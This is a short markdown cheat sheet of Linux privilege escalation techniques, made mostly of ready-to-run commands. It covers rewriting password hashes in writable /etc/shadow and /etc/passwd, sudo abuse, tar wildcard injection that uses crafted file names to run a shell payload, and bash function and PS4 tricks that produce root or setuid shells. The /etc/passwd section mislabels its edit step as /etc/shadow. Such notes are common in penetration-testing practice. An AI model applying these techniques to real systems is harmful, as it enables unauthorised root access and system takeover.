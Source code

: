 # Linux Privilege Escalation

## Writable /etc/shadow

```bash
# Generate hash sha512crypt
mkpasswd -m sha-512 some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Writable /etc/passwd

```bash
# Generate password for /etc/passwd
openssl passwd some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Sudo escalation

```bash
# Check programs allowed
sudo -l
```

[https://gtfobins.github.io](https://gtfobins.github.io)

## Tar escalation

If some script is using some like: `tar czf file.tar.gz *`.

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

## Abusing Shell Features Functions

Bash `<4.2-048` you can define shell functions to overwrite paths.

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
./run/your/app
```

## Abusing Shell Features PS4 variable

Bash `<4.4` you can use environment variable PS4 to display extra prompt for debug.

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/super; chmod +xs /tmp/super)' /some/app/for/debug
/tmp/super -p
```